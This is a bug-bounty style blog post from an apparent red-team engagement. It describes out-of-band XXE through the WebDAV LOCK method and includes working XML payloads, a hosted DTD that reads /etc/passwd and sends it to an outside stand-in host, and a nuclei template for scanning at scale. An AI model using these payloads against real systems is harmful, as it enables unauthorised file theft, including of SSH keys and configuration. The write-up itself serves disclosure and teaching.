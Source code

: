 ```yaml
---
layout: post
title: Exploiting Out-Of-Band XXE on Wildfire
date: 2021-02-19
summary: Data Exfiltration using XXE via HTTP LOCK Method
categories: Web Security
tags: [Bugs, Write-Ups, Web Security]
---
```


Hi Everyone 

In this blog ,i will cover one of the intresting vulnerability **Out-Of-Band XXE via HTTP LOCK Method** that i found during the Red Teaming Engagement in a `Product Based Company` and exploited the vulnerability at a **Large Scale**.

<p align="center">
  <img src="/images/xxe/xxe1.png">
</p>

Kudos to all my team members [Herane Malhotra](https://www.linkedin.com/in/herane-malhotra007/), [Lokendra Singh Rawat](https://www.linkedin.com/in/lokendrasinghrawat/), [Prashant Kumar](https://linkedin.com/in/notsoshant) who worked along during the assessment.

<p align="center">
  <img src="https://media.giphy.com/media/l3V0F3M2nJKxt3I2Y/giphy.gif">
</p>

**How it all started ?**

  Under the **Red Teaming Activty** there are many category such as Cyber Threat Intelligence, Internal Adversary Simulation, External Adversary Simulation, Social Engineering,Deep Web / Dark Web Exposure, OSINT, Phising etc,.
  
<p align="center">
  <img src="/images/xxe/xxe2.png">
</p>
  
  This vulnerability was found during the  **External Adversary Simulation** Category, where we used to test for Web Application and Network Assets to find **Critical Server Side** bugs so that we can exfiltrate data to get an inital foothold.
  
**Let's Dive Deep into it!**

* There were hundreds of login pages under the web application pentesting part and credentials that was obtained from Deep / Dark Web Exposure were not working :(

<p align="center">
  <img src="https://media.giphy.com/media/p52j8LBZGNsMJPqqVF/giphy.gif">
</p>

* Found many login pages which was developed by the company to their customers to handle the data between both the parties.

**Step 1:** Intercept the login request using client side proxy like Burp Suite as shown below.

<p align="center">
  <img src="/images/xxe/xxe3.png">
</p>

**Step 2:** Started to check for different HTTP Methods enabled in the application by using **OPTIONS**

<p align="center">
  <img src="/images/xxe/xxe4.png">
</p>

From the above image , it can be observed that there is no reaction from the application , got the same response we see from **GET** method.

<p align="center">
  <img src="https://media.giphy.com/media/3og0INyCmHlNylks9O/giphy.gif">
</p>

**Step 3:** When i removed `login.jsp` and supplied a notexisting value (test) it showed up the different HTTP Methods that are allowed in the application.

<p align="center">
  <img src="/images/xxe/xxe05.png">
</p>

Note : The allowed methods are OPTIONS, MKCOL, PUT, LOCK.

<p align="center">
  <img src="https://media.giphy.com/media/jchcqpyTpIki4/giphy.gif">
</p>

* There is an existing research paper about **WebDav** by **Mikhail Egorov** 

Reference : [What should a hacker know about WebDav?](https://www.slideshare.net/0ang3el/what-should-a-hacker-know-about-webdav)

<p align="center">
  <img src="/images/xxe/xxe12.png">
</p>

* If the application has `PROPPATCH,PROPFIND,LOCK` HTTP methods enabled, it will accept **XML** as input.

**Step 4:** Tried **PUT** method and it returned `403 forbidden error`, but when i tried **LOCK** method it showed up some **XML** data as output as shown below.

<p align="center">
  <img src="/images/xxe/xxe06.png">
</p>

* It was also mentioned that `OOB-XXE` will work with any methods that supports XML input.

<p align="center">
  <img src="/images/xxe/xxe13.png">
</p>

**Step 5:** So i started to test for **OOB-XXE** with basic payload as shown below.

```xml
<!DOCTYPE test [<!ENTITY % xxe SYSTEM "http://youripaddress.com"> %xxe; ]>
```

<p align="center">
  <img src="/images/xxe/xxe7.png">
</p>

Note: We got both the **HTTP** and **DNS** hit from the server.

**Step 6:** Since it is an `Out-Of-Band XXE` , follow the below steps to set-up the environment.

**Note :** We need to host the DTD file on a web server. Here, we used a simple web server on the cloud and pointed the domain `yourdomainname.com` to the server’s public IP address and hosted the file `exploited.dtd` on the server.

Contents of `exploited.dtd`:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ext "<!ENTITY exfil SYSTEM 'file:///%file;'>">
```

The request body send to the vulnerable URL:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "http://yourdomainname.com/exploitd.dtd">
%xxe;
%ext;
]>
<foo><u>
&exfil;
</u></foo>
```

<p align="center">
  <img src="/images/xxe/xxe8.png">
</p>

**Step 7:** Now the fun begins , we were able to exfiltrate and read different directory files and sensitive information such as **backup file, configuration file, ssh keys and access logs** etc,.

<p align="center">
  <img src="/images/xxe/xxe9.png">
</p>

<p align="center">
  <img src="/images/xxe/xxe010.png">
</p>

<p align="center">
  <img src="https://media.giphy.com/media/3og0ILLVvPp8d64Jd6/giphy.gif">
</p>

<p align="center"><strong>Exploiting the Flaw in Wildfire</strong></p>

* Since there is a huge number of subdomains , we wrote a nuclei template to detect this **OOB-XXE** as shown below.

```yaml
id: XXE on XXXX Login

info:
  name: XML External Entity-XXXX
  author: dhiyaneshDk
  severity: high

requests:
  - raw: 
      - |
        LOCK /xxxx/test HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
        Accept-Language: en-US,en;q=0.5
        Accept-Encoding: gzip, deflate
        Connection: close
        Upgrade-Insecure-Requests: 1
        Cache-Control: max-age=0
        Content-Length: 178
        
        <?xml version="1.0"?>
        <!DOCTYPE foo [
        <!ELEMENT foo ANY>
        <!ENTITY % xxe SYSTEM "http://yourdomainname.com/exploitd.dtd">
        %xxe;
        %ext;
        ]>
        <foo><u>
        &exfil
        </u></foo>

    matchers-condition: and
    matchers:
      - type: status
        status:
          - 500
      - type: word
        words:
          - '/root:x:0:0:root:/root:/bin/bash'
        part: body
```

<p align="center">
  <img src="/images/xxe/xxe11.png">
</p>

* There were around **36+ Instance** which was **Vulnerable** to XXE and cross checked all the instance manually.

<p align="center">
  <img src="https://media.giphy.com/media/DffShiJ47fPqM/giphy.gif">
</p>

<p align="center"><strong>Takeaway</strong></p>

<p align="center">
  <img src="/images/xxe/xxe14.png">
</p>

**Impact :** 

The XXE flaw can allow an attacker to turn the XML parser into a proxy which allows local and remote content to be served on request. It allows an attacker to:
* Read files on the application server
* Interact with any back-end or external systems that the application itself can access
* View configuration files present in the system.

**Refernece**

[Apache Jacrabbit WebDav XXE](https://www.youtube.com/watch?v=Hg3AXoG89Gs)       
[Finding and exploiting blind XXE vulnerabilities](https://portswigger.net/web-security/xxe/blind)            
[Advanced XXE Exploitation](https://gosecure.github.io/xxe-workshop/)   
[A Deep Dive into XXE Injection](https://www.synack.com/blog/a-deep-dive-into-xxe-injection/)
[Milton Webdav 2.7.0.1 XXE Injection](https://packetstormsecurity.com/files/134178/Milton-Webdav-2.7.0.1-XXE-Injection.html)

<p align="center">
  <img src="https://media.giphy.com/media/XCyJsCbOeTBmEsHIss/giphy.gif">
</p>

Thanks a lot for reading :)
